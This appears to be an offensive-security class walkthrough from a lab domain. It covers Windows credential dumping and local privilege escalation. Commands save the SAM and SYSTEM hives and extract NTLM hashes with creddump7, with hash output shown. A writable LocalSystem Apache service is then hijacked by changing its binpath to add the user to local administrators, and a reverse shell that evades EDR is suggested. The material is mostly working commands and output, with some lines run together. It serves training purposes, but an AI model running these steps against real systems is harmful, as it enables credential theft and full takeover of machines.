





Windows stores local user account password hashes in the Security Accounts Manager or SAM registry hive.
Additionally, there is a key needed to decrypt the encrypted hashes located in the System registry hive.
reg.exe save hklm\sam c:\users\richard.f\xampp\samreg.exe save hklm\system c:\users\richard.f\xampp\sys
These errors are common when using some type of web based shell to execute operating system commands via a scripting language such as Groovyscript. The short answer is that the \ is being processed by the scripting interpreter as code. You need to escape these characters by prepending them with an additional \ character.

Now run both commands with the proper character escaping and this will place a copy of the two registry hive files inside the xampp SMB share. You can then use smbclient to download to your attacking machine.

Next we’ll use an oldie but a goodie, creddump, to extract the hashes from the SAM!
wget http://tw.archive.ubuntu.com/ubuntu/pool/universe/c/creddump7/creddump7_0.1+git20190429-1.1_all.debsudo dpkg -i creddump7_0.1+git20190429-1.1_all.debNow run the following command from inside the directory where you saved sys and sam.
/usr/share/creddump7/pwdump.py sys sam > hashes.txt
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fa4621870bd7787de99541e0699e738c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:2620172f5a22c57e5c7a5450e21313b8:::
Sometimes (acctually lots of the time) when we get on a box we gain access to localhost services.
These are services that aren’t bound to 0.0.0.0 so we didn’t detect them during our discovery phase.
netstat -ant | findstr /I "listen"
TCP 0.0.0.0:80 0.0.0.0:0 LISTENING InHost
TCP 0.0.0.0:135 0.0.0.0:0 LISTENING InHost
TCP 0.0.0.0:443 0.0.0.0:0 LISTENING InHost
TCP 0.0.0.0:445 0.0.0.0:0 LISTENING InHost
TCP 0.0.0.0:3389 0.0.0.0:0 LISTENING InHost
TCP 0.0.0.0:5985 0.0.0.0:0 LISTENING InHost
TCP 0.0.0.0:8080 0.0.0.0:0 LISTENING InHost
TCP 0.0.0.0:47001 0.0.0.0:0 LISTENING InHost
TCP 0.0.0.0:49664 0.0.0.0:0 LISTENING InHost
TCP 0.0.0.0:49665 0.0.0.0:0 LISTENING InHost
TCP 0.0.0.0:49666 0.0.0.0:0 LISTENING InHost
TCP 0.0.0.0:49667 0.0.0.0:0 LISTENING InHost
TCP 0.0.0.0:49680 0.0.0.0:0 LISTENING InHost
TCP 0.0.0.0:49695 0.0.0.0:0 LISTENING InHost
TCP 0.0.0.0:49709 0.0.0.0:0 LISTENING InHost
TCP 192.168.0.130:139 0.0.0.0:0 LISTENING InHost
TCP [::]:80 [::]:0 LISTENING InHost
TCP [::]:135 [::]:0 LISTENING InHost
TCP [::]:443 [::]:0 LISTENING InHost
TCP [::]:445 [::]:0 LISTENING InHost
TCP [::]:3389 [::]:0 LISTENING InHost
TCP [::]:5985 [::]:0 LISTENING InHost
TCP [::]:8080 [::]:0 LISTENING InHost
TCP [::]:47001 [::]:0 LISTENING InHost
TCP [::]:49664 [::]:0 LISTENING InHost
TCP [::]:49665 [::]:0 LISTENING InHost
TCP [::]:49666 [::]:0 LISTENING InHost
TCP [::]:49667 [::]:0 LISTENING InHost
TCP [::]:49680 [::]:0 LISTENING InHost
TCP [::]:49695 [::]:0 LISTENING InHost
TCP [::]:49709 [::]:0 LISTENING InHost
Although we can see that 80 and 443 are bound to 0.0.0.0, those ports didn’t show up on our nmap scan. Likely due to Windows Defender firewall rules.
If we browse to one of those ports on 127.0.0.1 we can see it appears to be Apache packaged up with XAMPP.

sc query | findstr /I "apache"
SERVICE_NAME: Apache2.4
DISPLAY_NAME: Apache2.4
sc qc apache2.4
[SC] QueryServiceConfig SUCCESS
SERVICE_NAME: apache2.4
TYPE : 10 WIN32_OWN_PROCESS
START_TYPE : 2 AUTO_START
ERROR_CONTROL : 1 NORMAL
BINARY_PATH_NAME : "C:\users\richard.f\xampp\apache\bin\httpd.exe" -k runservice
LOAD_ORDER_GROUP :
TAG : 0
DISPLAY_NAME : Apache2.4
DEPENDENCIES : Tcpip
: Afd
SERVICE_START_NAME : LocalSystem
The binary executable is located inside the SMB share we have read/write to as “richard.f”. The service is configured to run with LocalSystem privileges. Assuming our user has permissions to start and stop the service, we should be able to replace httpd.exe with a binary of our choosing and elevate our privileges to LocalSystem
sc query apache2.4
SERVICE_NAME: apache2.4
TYPE : 10 WIN32_OWN_PROCESS
STATE : 4 RUNNING
(STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
WIN32_EXIT_CODE : 0 (0x0)
SERVICE_EXIT_CODE : 0 (0x0)
CHECKPOINT : 0x0
WAIT_HINT : 0x0
It says it accepts shutdown, try it.
sc stop "apache2.4"
Now you can use sc to set a new binary path. This could be a path to a reverse shell executable assuming you’ve got one that bypasses the target’s EDR. For a simpler approach, try this.
sc config apache2.4 binpath= "cmd.exe /c net localgroup administrators sciencerocks\richard.f /add"
[SC] ChangeServiceConfig SUCCESS
net localgroup administratorsAlias name administrators
Comment Administrators have complete and unrestricted access to the computer/domain
Members
-------------------------------------------------------------------------------
Administrator
SCIENCEROCKS\Domain Admins
SCIENCEROCKS\server.admin
The command completed successfully.
C:\Users\richard.f>
sc start apache2.4[SC] StartService FAILED 1053:
The service did not respond to the start or control request in a timely fashion.
C:\Users\richard.f>
Oh no an ERROR!, but don’t worry, check the local administrators group again :)

Here are some suplimental resources for you to read through outside of class.